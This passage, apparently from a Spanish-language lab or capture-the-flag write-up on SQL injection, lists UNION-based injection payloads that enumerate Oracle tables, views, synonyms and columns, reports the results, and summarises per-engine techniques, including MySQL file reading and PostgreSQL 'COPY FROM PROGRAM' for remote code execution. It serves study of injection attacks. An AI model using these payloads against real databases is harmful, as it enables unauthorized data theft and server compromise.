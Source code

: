 ### 🔍 Descubrimiento de Tipos (Error-Based)
```sql
' UNION SELECT 'string',999,'test','oracle',SYSDATE FROM users -- 
```

### 🏗️ Enumeración de Tablas del Usuario
```sql
' UNION SELECT 999,TABLE_NAME,'USER_TABLES','oracle_enum',SYSDATE FROM USER_TABLES -- 
```

### 👁️ Enumeración de Vistas
```sql
' UNION SELECT 999,VIEW_NAME,'USER_VIEWS','oracle_views',SYSDATE FROM USER_VIEWS -- 
```

### 🔗 **CLAVE**: Enumeración de Sinónimos
```sql
' UNION SELECT 999,SYNONYM_NAME,TABLE_NAME,'oracle_synonyms',SYSDATE FROM USER_SYNONYMS -- 
```

### 📋 Enumeración de Columnas (Tablas del Sistema)
```sql
' UNION SELECT 999,COLUMN_NAME,DATA_TYPE,'sys_products_cols',SYSDATE FROM ALL_TAB_COLUMNS WHERE OWNER='SYS' AND TABLE_NAME='PRODUCTS' -- 
```

### ✅ Resultados Oracle
- **Usuario actual**: `SYSTEM`
- **Descubrimiento clave**: Tablas accesibles vía sinónimos
  - `USERS` → `SYS.USERS`
  - `PRODUCTS` → `SYS.PRODUCTS`
- **Estructura SYS.PRODUCTS**: `ID(NUMBER)`, `NAME(VARCHAR2)`, `PRICE(NUMBER)`, `DESCRIPTION(CLOB)`, `CATEGORY(VARCHAR2)`

---

## 🧠 Lecciones Aprendidas

### 💡 Técnicas Críticas por Motor

#### MySQL
- ✅ INFORMATION_SCHEMA estándar
- ✅ Funciones de sistema integradas
- ✅ UNION SELECT directo
- 📁 **LOAD_FILE() para lectura de archivos**
- 🔓 **Sin restricciones de casting**

#### PostgreSQL
- ✅ Stacked queries habilitadas
- ✅ Casting explícito requerido (`::text`)
- ✅ `pg_tables` para metadatos
- 🚨 **COPY FROM PROGRAM para RCE**
- 📁 **pg_read_file() para lectura de archivos**
- ⚠️ **Funcionalidad peligrosa habilitada por defecto**
- 🎯 **Casting de tipos crítico para UNION**
